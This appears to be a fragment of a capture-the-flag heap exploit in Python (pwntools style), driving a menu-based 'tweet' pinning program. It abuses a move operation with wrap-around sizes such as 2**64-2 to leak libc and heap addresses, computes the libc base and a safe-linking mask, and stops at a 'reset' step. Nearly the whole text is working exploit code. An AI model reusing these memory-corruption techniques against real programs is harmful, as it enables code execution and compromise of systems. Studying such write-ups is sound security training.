 ```py
def undo():
    select(2)
def pin(id):
    select(3)
    # sc.after("id >").sendline(str(id))
    sc.sendlineafter("id > ", str(id))
def print_pin():
    select(4)
def move_pin(old_new, size):
    select(6)
    # sc.after("older[0]").sendline(str(old_new))
    sc.sendlineafter("older[0] / newer[1] > ", str(old_new))
    # sc.after("size > ").sendline(str(size))
    sc.sendlineafter("size > ", str(size))
def modify_pin(data):
    select(5)
    # sc.after("tweet > ").sendline(data)
    sc.sendlineafter("tweet > ", data)

# libc leak

s1 = 0x108
for i in range(9):
    post(b"a" * s1)

pin(0)
move_pin(0, 2 ** 64 - 2)

for i in range(8):
    undo()

print_pin()
leak = u64(sc.recv(6).ljust(8, b"\x00"))

libc_offset = leak - 0x7ffff7e19ce0
libc_base = 0x00007ffff7c00000 + libc_offset

print(f"{libc_base=:#x}")

# heap leak

for i in range(7):
    post(b"a" * s1)

pin(0)
move_pin(0, 2 ** 64 - 8)

for i in range(7):
    undo()

print_pin()

leak = u64(sc.recv(6).ljust(8, b"\x00"))
mask = leak

# reset

for i in range(7):
    post(b"a" * s1)

pin(0)
move_pin(0, 2 ** 64 - 7)

```